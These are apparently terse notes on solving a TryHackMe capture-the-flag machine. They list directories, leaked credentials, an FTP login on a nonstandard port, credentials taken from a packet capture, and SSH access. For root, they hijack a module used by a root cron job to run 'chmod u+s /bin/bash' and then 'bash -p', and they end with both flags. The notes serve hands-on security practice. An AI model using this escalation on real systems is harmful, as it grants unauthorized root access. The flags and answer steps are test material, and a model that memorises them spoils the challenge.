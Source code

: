 # ip 
	10.10.170.77

# dir
	/gallery/
	/index.html
	/static/
	/pricing

# notes

	in /static/00
		dev notes from valleyDev:
		-add wedding photo examples
		-redo the editing on #4
		-remove /dev1243224123123
		-check for SIEM alervall


in the /dev1243224123123 
	we find login page 
	check the source we find dev.js
		username === "siemDev" && password === "california"
		

		/dev1243224123123/devNotes37370.txt:
			dev notes for ftp server:
			-stop reusing credentials
			-check for any vulnerabilies
			-stay up to date on patching
			-change ftp port to normal port


use the crenditals to ftp in 37370
	
in the siemHTTP2.pcapng in http we find 

uname=valleyDev&psw=ph0t0s1234

lets ssh it 

valleyDev: ph0t0s1234
# shell

valleyAuth..

strings 

e6722920bab2326f8217e4: liberty123


get the valley user

valley: liberty123


we find in crontab the python script run 

we catn edit it but we can got to the base64 script and edit it 
add 

import os
os.system("chmod u+s /bin/bash")

after a minute we see the /bin/bash add our user to the file 
run bash -p

###### we get the root! ###### 




# flags
	user.txt: THM{k@l1_1n_th3_v@lley}
	root.txt: THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}


















